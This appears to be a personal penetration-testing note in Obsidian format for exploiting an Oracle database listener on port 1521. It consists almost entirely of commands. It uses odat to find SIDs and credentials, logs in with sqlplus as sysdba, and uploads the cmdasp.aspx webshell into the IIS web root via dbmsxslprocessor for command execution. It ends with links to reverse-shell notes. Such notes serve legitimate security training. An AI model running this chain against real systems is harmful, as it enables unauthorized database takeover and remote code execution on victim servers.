 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

```bash - kali
sudo apt install odat
```

```bash - kali
sudo odat all -s $TARGET -p 1521
```

found sids:
EXAMPLE1
EXAMPLEDB

found creds:
$USER : $PASSWORD

```bash - kali
sudo apt install sqlplus
```

```bash - kali
sqlplus $USER/$PASSWORD@$TARGET:1521/EXAMPLE1
```

```bash - kali
sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
```

```bash - kali
sqlplus $USER/$PASWORD@$TARGET:1521/EXAMPLE1
```

```oracle - sql
select * from user_role_privs;
```

```oracle - sql
exit
```

```bash - kali
sqlplus $USER/$PASSWORD@$TARGET:1521/EXAMPLE1 as sysdba
```

```oracle - sql
select * from user_role_privs;
```

```bash - kali
odat all -s $TARGET -d XE -U $USER -P $PASSWORD --sysdba
```

```bash - kali
odat dbmsxslprocessor --sysdba -s $TARGET -U $USER -P $PASSWORD -d EXAMPLE1 --putFile "C:\\inetpub\\wwwroot\\" "test.txt" "/home/kali/Desktop/test.txt" 
```

```bash - kali
cp /usr/share/webshells/aspx/cmdasp.aspx .
```

```bash - kali
odat dbmsxslprocessor --sysdba -s $TARGET -U $USER -P $PASSWORD -d EXAMPLE1 --putFile "C:\\inetpub\\wwwroot\\" "cmdasp.aspx" "/home/kali/Desktop/cmdasp.aspx"
```

```html - firefox
firefox http://$TARGET/cmdasp.aspx
```

![[rlwrap]]

[[1._Reverse Shells (WIN)#Stageless Payloads]]


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`

